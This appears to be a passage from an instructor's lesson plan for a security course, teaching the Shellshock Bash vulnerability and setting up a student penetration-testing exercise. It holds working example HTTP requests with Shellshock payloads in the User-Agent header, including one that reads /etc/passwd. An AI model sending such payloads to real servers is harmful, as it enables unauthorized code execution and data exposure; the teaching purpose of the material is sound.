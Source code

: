 Emphasize that Bash interprets the value of this header as code. This allows us to execute arbitrary code on the target.

- Shellshock can be exploited when we include malicious code after the seemingly useless `() { :;};` string. 

- For example: the modified request below will run `echo "haxxed"`.

  ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; echo "haxxed"
  Connection: keep-alive
  ```

Some malicious codes can open TCP connections back to your machine or show user passwords.

   - For example: 

   ```bash
   GET /index.html HTTP/1.1
   Host: example.com
   User-Agent: () { :;}; /bin/bash -c 'cat /etc/passwd'
   Connection: keep-alive
   ```

Note the syntax  and explain that Shellshock payloads are often executed with the following template:

- `/bin/bash -c 'command'` runs the string `'command'` as a Bash command. This is different from passing a command directly because of how Bash handles the output. 

- Using `/bin/bash -c` helps preserve `stdout` more consistently.

Take a moment to address any remaining questions before proceeding.


### 02. Student Do: Shellshock Payloads (0:20)

Explain the following to students:

- In this activity, you will play the role of a penetration tester evaluating a client's machine for the Shellshock vulnerability. 

- You are tasked with using a template script to create custom exploits for the Shellshock vulnerability.

Share the following activity file out to students:

- [Activity File: Shellshock Payloads](activities/02_Shellshock_Payload/Unsolved/README.md)


### 03. Instructor Review: Shellshock Payloads Activity (0:10)

Explain that this activity required students to inject malicious commands into a script that exploits the Shellshock vulnerability. 

Share the following solution guide and use it to guide your review:
